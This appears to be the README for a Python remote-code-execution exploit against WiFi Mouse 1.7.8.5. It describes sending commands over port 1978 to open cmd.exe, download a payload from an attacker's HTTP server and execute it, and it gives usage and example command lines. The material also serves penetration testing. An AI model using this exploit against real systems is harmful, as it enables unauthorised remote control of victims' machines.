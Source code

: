 # WiFi-Mouse-1.7.8.5 Remote Code Execution (RCE) v3

This is a Python-based exploit for the WiFi Mouse (version 1.7.8.5) that leverages a Remote Code Execution (RCE) vulnerability.

## Description

WiFi Mouse allows users to control their PC using their smartphone as a remote. In version 1.7.8.5, a vulnerability exists that allows an attacker to send arbitrary commands to the target machine, resulting in remote code execution.

## Exploit Details

The exploit connects to the WiFi Mouse server on the target machine over port 1978, sends a payload to open `cmd.exe`, and executes commands such as downloading a file from a remote HTTP server and executing it on the target system.

## Usage

```bash
python3 exploit.py <target-ip> <local-http-server-ip> <rev_shell payload>
```
- `<target-ip>`: The IP address of the target machine running the vulnerable WiFi Mouse server.
- `<local-http-server-ip>`: The IP address of the attacker's HTTP server hosting the payload.
- `<payload-name>`: The name of the payload to be executed on the target.

### Example

```bash
python3 exploit.py 192.168.1.10 192.168.1.5 malicious_payload.exe
